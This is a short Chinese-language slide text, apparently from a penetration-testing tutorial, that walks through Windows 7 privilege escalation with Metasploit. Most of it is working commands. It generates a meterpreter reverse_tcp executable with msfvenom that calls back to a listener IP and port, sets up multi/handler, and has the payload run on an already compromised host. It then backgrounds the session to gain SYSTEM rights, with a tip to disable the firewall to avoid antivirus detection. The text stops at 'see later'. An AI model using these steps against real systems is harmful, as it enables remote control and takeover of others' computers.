

Window7提权例子
1、生成payload 1.exe
root@kali:~/桌面# msfvenom -p windows/meterpreter/reverse_tcp lhost=“192.168.149.142” lport=1122 -f exe > 1.exe reverse_tcp指定使用的协议  -f指定输出位exe类型文件
Kali 建立端口侦听等待windows7连接
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.149.142
lhost => 192.168.149.142
msf5 exploit(multi/handler) > set lport 1122
run
前提是windows7已经拿到shell，将1.exe 上传到windows7运行，反弹建立会话
Windows 10记得关闭防火墙，会报毒，关闭kali
运行1.exe
挂起，提升到sys权限,劫持会话
background
验证当前系统未打补丁的漏洞，然后进行利用
见后面